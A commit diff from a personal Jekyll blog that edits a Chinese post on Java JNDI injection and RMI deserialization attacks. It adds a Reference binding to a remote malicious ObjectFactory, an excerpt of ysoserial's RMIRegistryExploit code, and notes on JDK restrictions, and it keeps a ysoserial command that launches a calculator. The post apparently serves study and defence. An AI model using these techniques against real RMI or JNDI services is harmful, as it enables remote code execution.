

Before and after one commit to alivk353/alivk353.github.io, a Jekyll site: the page built from _posts/2020-09-20-JAVA-JNDI注入漏洞.md, in a window 1280 px wide. Shown: the part 667-2571 px from the top of the page at 82% size, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
edit JNDI

````diff
--- a/_posts/2020-09-20-JAVA-JNDI注入漏洞.md
+++ b/_posts/2020-09-20-JAVA-JNDI注入漏洞.md
@@ -26,15 +26,43 @@
 
 ### jdk8u191后的利用方式
 
-#### org.apache.naming.factory.BeanFactory
+
+#### JNDI工厂模式
 
 
 
+JNDI还支持工厂模式，传递的对象均实现`javax.naming.Reference`接口
+
 - javax.naming.Reference属性有：
-  - `String className;`反射调用的类名
+  - `String className;` 引用对象指向的全类名
   - `Vector<RefAddr> addrs;`
-  - `String classFactory;` 目标ObjectFactory类名
+  - `String classFactory;` 目标`javax.naming.spi.ObjectFactory`类名，调用`Factory#getObjectInstance`动态生成ClassName的对象
   - `String classFactoryLocation;` JNDI远程恶意class文件地址，受RMI和LDAP的变量trustURLCodebase限制
+  - 通过RMI服务返回Reference，客户端处理Reference时回到指定的`Codebase`或`classFactoryLocation`远程地址加载Factory类
+
+绑定Reference对象指向Exploit对象
+
+```java
+  Registry registry = LocateRegistry.createRegistry(1099);
+  Reference referenceExploit = new Reference("org.example.Exploit", "org.example.Exploit", "http://127.0.0.1:8000/");
+  ReferenceWrapper refObjWrapper = new ReferenceWrapper(referenceExploit);
+  registry.bind("Exploit", refObjWrapper);
+
+  //远程自定义ObjectFactory
+  public class org.example.Exploit implements ObjectFactory{
+    static {
+      Exploit code ...
+    }
+
+    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable environment )throws Exception {
+      Exploit code ...
+    }
+  }
+```
+
+#### org.apache.naming.factory.BeanFactory
+
+实现JNDI规范接口`javax.naming.spi.ObjectFactory`
 
 - `BeanFactory#getObjectInstance`存在反射调用
   - 反射Reference.className并newInstance()实例化
@@ -221,20 +249,28 @@
 
 ## 使用ysoserial去攻击
 
-- 攻击服务端
- - 可以访问到JNDI的RMI服务,RMI Registry
-- 攻击客户端
- - 可以控制客户端的lookup方法的参数，进而控制client访问恶意RMI服务器
- - 远程加载class，执行任意代码
- -
+RMI的客户端与服务端通信内容为序列化数据，客户端和服务端可以相互进⾏反序列化攻击
+
+
+- 可以控制客户端的lookup方法的参数，进而控制client访问恶意RMI服务器
+- lookup远程加载class，执行任意代码
+- lookup访问恶意Registry，Registry绑定对象方法中返回Gadget对象
 
 需要Server和Client的拥有共同的接口类，及注册相同的服务
 
-### 可以访问RMI Registry
+### 攻击RMI Registry服务端
 
-由于Java对远程访问RMI Registry做了限制，只有来源地址是localhost的时候，才能调用rebind、bind、unbind等方法。
+由于Java对远程访问RMI Registry做了限制，只有来源地址是localhost的时候，才能调用rebind、bind、unbind等方法，但可以触发反序列化
 
-所以我们可以调用list方法查看Registry上存在对象，看看有没有危险的对象可以利用
+通过bind绑定name和远程对象，以供客户端远程调用，任何可以被远程调⽤的对象都必须实现`java.rmi.Remote`接⼝，远程对象的实现类必须继承`UnicastRemoteObject`类
+
+客户端必须和远程对象JVM内拥有同样的接口，只能调用接口声明的方法，动态代理实现
+
+可以调用list方法查看Registry上存在对象
+
+
+- 通过客户端调用bind触发服务端的反序列化，ysoserial有实现
+- 用过客户端调用远程对象方法时，传递的参数为恶意Gadge对象，触发服务端的readObject()
 
 #### ysoserial RMIRegistryExploit
 
@@ -277,7 +313,19 @@
 ```shell
 java -cp ./ysoserial-master-4df2ee2bb5-1.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 11111 CommonsCollections1 "/System/Applications/Calculator.app/Contents/MacOS/Calculator"
 ```
-成功执行命令,接着把jdk版本切换到1.8u251,重新启动rmiServer,并且重新执行上面的命令,结果为报错:
+
+调用`Registry.bind()`触发`Registry`反序列化
+
+```java
+  //ysoserial.exploit.RMIRegistryExploit#exploit
+  ObjectPayload payloadObj = payloadClass.newInstance();
+  Object payload = payloadObj.getObject(command);
+  String name = "pwned" + System.nanoTime();
+  Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
+  registry.bind(name, remote);
+```
+
+顺利执行，把jdk版本切换到1.8u251，重新启动rmiServer并重复上面操作，结果报错:
 
 ```text
 
@@ -405,6 +453,26 @@
 `java.rmi.AccessException: Registry.Registry.bind disallowed; origin /195.0.1.5 is non-local host`原因是 JDK >= 8u141时 sun.rmi.registry.RegistryImpl#checkAccess 会进行来源IP地址的检查 如果请求的IP地址不是本机的IP地址 则拒绝执行bind操作。
 
 且jdk8u141中的检测只针对了三种操作：bind\rebind\unbind 而没有对lookup进行限制 后续可以修改ysoserial源码绕过
+
+### 远程动态加载class字节码
+
+由于RMI的调用需要双端JVM拥有相同SUID的接口，当一端缺失相关class时Java RMI提供了远程加载Class机制
+
+#### Java也对这个机制有限制
+
+ `java.rmi.server.useCodebaseOnly`的值为false，禁止加载远程class，从 JDK6u45,7u21开始，`java.rmi.server.useCodebaseOnly`的默认值就是true
+
+ 只能从本地`classpath`即环境变量`env.class.path` 和 `java.rmi.server.codebase`所示位置加载class
+
+ 从环境变量`java.rmi.server.codebase`加载URLs到ClassLoader对象，`sun.rmi.server.LoaderHandler#codebaseProperty`
+
+  如，控制客户端lookup参数访问恶意Registry时设置变量：
+  ```java
+  System.setProperty("java.rmi.server.codebase","http://127.0.0.1:8000/commons-collections-3.1.jar")
+  ```
+
+  设置 securityManager 和 java.security.policy
+  - jdk/conf/security/java.policy
 
 ## RMI通信
 
````
Also changed, not shown: _posts/2020-09-09-反序列化相关.md (+10 -0 lines).
